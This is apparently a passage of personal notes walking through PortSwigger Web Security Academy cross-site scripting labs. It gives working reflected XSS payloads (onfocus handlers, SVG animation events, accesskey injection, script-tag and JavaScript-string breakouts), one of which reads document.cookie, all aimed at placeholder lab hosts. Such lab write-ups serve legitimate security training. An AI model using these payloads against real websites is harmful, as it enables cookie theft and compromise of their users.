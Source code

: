 ```text
<script>
location = 'https://LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

This injection creates a custom tag with the ID `x`, which contains an `onfocus` event handler that triggers the `alert` function. The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the `alert` payload to be called.

---
### Reflected XSS with some SVG markup allowed

Here you'll learn how to use Burp intruder and [THIS LIST](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) to test for XSS. 
This will be your final payload: 
`https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E`

---
### Reflected XSS in canonical link tag

You will trigger the exploit by clicking "accesskey + X" in this case. This is the payload:
`/?%27accesskey=%27x%27onclick=%27alert(1)` and you can trigger that by pressing:

Windows: ALT + SHIFT + X
MacOS: CTRL + ALT + X
Linux: ALT + X

---
### Reflected XSS into a JavaScript string with single quote and backslash escaped

You have control over the "asd" value here:
![[Pasted image 20240723122204.png]]

So, need to escape the script tag, and create the second one. This is your payload:
`</script><script>alert(1)</script>`

---
### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

This is your payload: `\'-alert(1)//`

---
### Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

It's reflecting the content of the "Website" when you send a comment. So, let's inject there.

